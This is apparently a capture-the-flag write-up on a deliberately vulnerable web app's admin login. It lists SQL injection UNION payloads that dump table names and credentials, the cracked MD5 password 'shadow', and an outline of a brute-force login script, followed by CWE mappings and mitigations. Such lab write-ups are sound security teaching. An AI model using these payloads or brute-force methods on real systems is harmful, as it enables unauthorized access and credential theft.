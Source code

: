 # Bruteforce - Admin Member LogIn

## Breach type:
* A05:2021 Security Misconfiguration 
    * CWE-16 Configuration (feature that doesn't work installed: `page=recover` for recover password.)
* A01:2021 Broken Access Control
    * CWE-200 Exposure of Sensitive Information to an Unauthorized Actor.
     		
On the specific case of weak password:
* CWE-1391: Use of Weak Credentials
* CWE-330: Use of Insufficiently Random Values		
* CWE-326: Inadequate Encryption Strength		
* CWE-521: Weak Password Requirements

## How to find the flag:
* Display all the tables of the databases with : `105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`

* Discover a table named `db_default` which contains three columns : `id, username, password`

* Try to view its content with the following SQL command `105 OR 1=1 UNION SELECT username, 1 FROM db_default`.
It will return this error message : `Table 'Member_Sql_Injection.db_default' doesn't exist.`
    * We understand that it looks for the content of `db_default` in the wrong database.
    * We now need to find in which database `db_default` is stored

* Use this command to show all the tables and their databases : `105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`.
    * We now know that `db_default` is part of the `Member_Brute_Force` database

* List all the usernames of `db_default` : `105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default`
    * We find two candidates : admin and root

* List all the password of `db_default`: `105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default`
    * We find hashed data for one specific password : `3bf1114a986ba87ed28fc1b5884fc2f8`
    * We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. 
    * There's 32 characters so it is probably hashed in MD5.
    * It is ! The password is `shadow`

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word `flag` is present in the response of the reconstructed URL : `full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"`

We can now go to the Signin page and log in with :
* Username : `admin`
* Password : `shadow`

## Risks:
* Poor password practices, such as using easily guessable passwords like "Password" or "123456", increase the risk of data breaches, identity theft, and business disruption :
    * Attackers exploit unchanged default settings or stolen passwords to gain unauthorized access, leading to data breaches and compromising critical systems.
    * Ineffective password management can lead to financial losses for mid-size businesses through incidents like phishing attacks and malware/ransomware.
    * Legal implications of poor password controls include regulatory non-compliance fines and potential legal costs from data breaches due to inadequate security measures.

## How to avoid:
* Use strong, complex passwords that are unique for each account.
* Limit login attempts with account lockout mechanisms.
* Monitor and restrict login attempts from suspicious IP addresses.
* Implement Two-Factor Authentication (2FA) for added security.
* Utilize CAPTCHAs to differentiate between human users and bots.
* Consider using unique login URLs to deter attackers.
* Disable root SSH logins to prevent direct brute force attacks.
* Deploy Web Application Firewalls (WAFs) to block malicious traffic and enforce security policies.

## Sources:
* https://cwe.mitre.org/data/definitions/521.html
* https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
* https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/07-Testing_for_Weak_Password_Policy
* https://www.itsasap.com/blog/how-to-prevent-brute-force-attacks
* https://jetpack.com/blog/weak-passwords/